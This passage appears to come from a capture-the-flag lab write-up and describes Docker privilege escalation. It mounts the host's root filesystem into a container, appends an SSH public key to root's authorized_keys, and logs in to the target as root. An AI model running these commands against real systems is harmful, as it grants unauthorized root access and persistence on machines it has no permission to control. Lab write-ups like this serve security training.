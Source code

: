 Creating Docker container and mount the root directory of the host system to _/mnt_:
```
docker run -v /:/mnt --rm -it 0601ea177088 /mnt sh
```

Checking the container ID of the started container:
```
docker ps
```

Starting an interactive shell in the container:
```
docker exec -it 9b04b8316c02 sh
```

In this container the root directory of the host is mounted to _/mnt_ and all files are writeable.
To get a shell on the host, a SSH key can be added to the _/root/.ssh/authorized_keys_ file:
```
echo "ssh-rsa AAAAB3NzaC1yc2E(...)" >> authorized_keys
```

Login as root via SSH:
```
ssh -i stacked_root root@10.10.11.112
```
